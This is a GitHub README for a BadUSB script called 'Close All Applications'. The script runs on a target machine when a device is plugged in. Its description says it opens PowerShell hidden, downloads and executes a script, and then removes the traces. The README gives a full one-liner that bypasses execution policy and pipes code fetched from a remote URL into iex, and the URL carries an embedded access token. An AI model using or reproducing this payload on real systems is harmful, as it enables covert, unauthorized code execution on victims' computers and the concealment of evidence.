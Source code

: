 # Close All Applications - BadUSB ✅

A script used to close all target open applications.

**YouTube Video**: https://youtube.com/shorts/fbXgI-4ABhU

**Category**: Execution

<div align=center>

<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/logo-repository-2_0.gif?token=GHSAT0AAAAAACJCV62UACYVZAHZREEX64GEZJVSP5Q" width="600" /><br>
<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/DISCLAIMER.png?token=GHSAT0AAAAAACJCV62UBQHETMSVF36BUBOKZJVTPEQ" width="600" />

</div>

## Description

A script used to close all target open applications.

Opens PowerShell hidden, download a Python script, execute it, remove Python script downloaded, removes all taraces left behind.

## Getting Started

### Dependencies

* Internet Connection
* Windows 10,11

### Executing program

* Plug in your device

All
```powershell
powershell -w h -ep bypass -Command  "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/Windows/CloseAllApps/closeAllApps.ps1?token=GHSAT0AAAAAACJCV62V5JRTVENW2PIGRDAKZJVSH5A').Content"
```





## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
  </tr>
</table>
</div>
